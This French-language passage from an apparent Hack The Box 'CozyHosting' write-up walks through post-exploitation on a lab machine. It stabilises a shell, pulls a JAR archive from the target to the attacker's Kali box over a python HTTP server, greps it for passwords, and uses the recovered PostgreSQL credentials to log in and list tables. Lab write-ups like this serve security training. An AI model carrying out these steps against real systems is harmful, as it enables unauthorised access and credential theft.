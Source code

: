 On peut rendre le shell stable à l'aide des commandes suivantes

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
```
![cozyhosting-stable-shell](/images/HTB-CozyHosting/stable-shell.png)

> Ne vous inquiétez pas si vous ne voyez pas le prompt après avoir exécuté la dernière commande, appuyez simplement sur `Entrée` et le prompt réapparaîtra.

Nous trouvons une archive sur le système cible, téléchargeons-la. 

Je configure un serveur sur le système cible

```
python3 -m http.server 8000
```

Sur ma machine Kali, j'exécute

```
wget cozyhosting.htb:8000/cloudhosting-0.0.1.jar
```

Décompressez l'archive avec

```
unzip cloudhosting-0.0.1.jar
```

Faites une recherche avec `grep -r password *` et vous obtiendrez quelques résultats. Je vois qu'il y a un mot de passe dans `BOOT-INF/classes/application.properties`.

![cozyhosting-password-in-archive](/images/HTB-CozyHosting/password-location-springboot.png)

J'affiche le contenu du fichier sur le terminal et j'obtiens un nom d'utilisateur en plus du mot de passe pour une base de données PostgreSQL.

![cozyhosting-full-credentials](/images/HTB-CozyHosting/postgres-credentials.png)

Je me connecte à PostgreSQL avec

```
psql -h 127.0.0.1 -U postgres
```

Puis je me connecte à la base de données avec

```
\c cozyhosting
```
![cozyhosting-db-login](/images/HTB-CozyHosting/postgres-loggedin.png)

Je liste ensuite les tables de la base de données avec `\d`.

![cozyhosting-db-tables](/images/HTB-CozyHosting/db-tables.png)
